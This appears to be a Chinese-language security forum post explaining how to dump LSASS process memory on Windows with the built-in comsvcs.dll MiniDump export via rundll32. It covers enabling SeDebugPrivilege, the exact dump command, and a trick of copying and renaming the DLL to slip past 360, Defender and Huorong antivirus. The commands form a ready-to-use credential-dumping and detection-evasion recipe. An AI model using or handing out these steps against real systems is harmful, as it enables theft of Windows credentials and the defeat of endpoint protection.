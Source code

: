 comsvcs.dll
-----------

comsvcs.dll，它是系统自带的

会被360、defender拦截，Bypass 火绒

在原理上都是使用API `MiniDumpWriteDump`，通过comsvcs.dll的导出函数MiniDump实现dump内存。

```php
BOOL MiniDumpWriteDump(
  [in] HANDLE                            hProcess,
  [in] DWORD                             ProcessId,
  [in] HANDLE                            hFile,
  [in] MINIDUMP_TYPE                     DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

注：

我们要考虑权限问题，在dump指定进程内存文件时，需要开启`SeDebugPrivilege`权限。

管理员权限的cmd下，默认支持`SeDebugPrivilege`权限，但是状态为Disabled禁用状态。

![image-20220326111606393](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-36849d6aaf9d16ddaca7988180dda3fb145bb8be.png)

管理员权限的powershell下，默认支持`SeDebugPrivilege`权限，并且状态为Enabled

![image-20220326111801957](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5501291873698250de46b110802db5e20ae737da.png)

可以通过powershell执行`rundll32`的命令实现

```php
PS C:\WINDOWS\system32> tasklist | findstr lsass.exe
lsass.exe                     1084 Services                   0     27,564 K
```

命令格式：

```php
rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full
```

直接利用发现会被拦截：

```php
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 1084 lsass.dmp full
```

简单的绕过思路：

copy一下`comsvcs.dll`并命名为随意名字，例如`matrix.dll`

```php
copy C:\windows\System32\comsvcs.dll matrix.dll
rundll32.exe matrix.dll, MiniDump 1084 lsass.dmp full
```
